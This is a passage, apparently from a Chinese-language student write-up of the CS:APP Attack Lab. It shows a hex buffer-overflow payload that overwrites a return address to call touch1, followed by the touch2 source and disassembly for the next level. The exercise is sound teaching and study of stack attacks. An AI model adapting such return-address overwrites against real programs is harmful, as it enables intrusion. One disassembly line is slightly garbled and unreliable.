```assembly
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00  #touch1 函数的地址，注意在x86是小端系统 
```

结果

![1556783646931](assets/1556783646931.png)

###	Level 2

需要攻击的代码还是如上的text函数，只不过这次要运行touch2函数

```c
void touch2(unsigned val)
{
    vlevel = 2;
    if(val == cookie){
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    }else{
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(2);
}
```

其实和Level 类似，只不过是针对缓存区进行攻击，除了注入函数地址外，还要注入参数。

touch2地址

```assembly
00000000004017ec <touch2>:
  4017ec:	48 83 ec 08          	sub    $0x8,%rsp
  4017f0:	89 fa                	mov    %edi,%edx
  4017f2:	c7 05 e0 2c 20 00 02 	movl   $0x2,0x202ce0(%rip)        # 6044dc <vlevel>
  4017f9:	00 00 00 
  4017fc:	3b 3d e2 2c 20 00    	cmp    0x202ce2(%rip),%edi        # 6044e4 <cookie>
  401802:	75 20                	jne    401824 <touch2+0x38>
  401804:	be e8 30 40 00       	mov    $0x4030e8,%esi
  401809:	bf 01 00 00 00       	mov    $0x1,%edi
  40180e:	b8 00 00 00 00       	mov    $0x0,00%eax
  401813:	e8 d8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
  401818:	bf 02 00 00 00       	mov    $0x2,%edi
  40181d:	e8 6b 04 00 00       	callq  401c8d <validate>
  401822:	eb 1e                	jmp    401842 <touch2+0x56>
  401824:	be 10 31 40 00       	mov    $0x403110,%esi
  401829:	bf 01 00 00 00       	mov    $0x1,%edi
  40182e:	b8 00 00 00 00       	mov    $0x0,%eax
  401833:	e8 b8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
  401838:	bf 02 00 00 00       	mov    $0x2,%edi
  40183d:	e8 0d 05 00 00       	callq  401d4f <fail>
```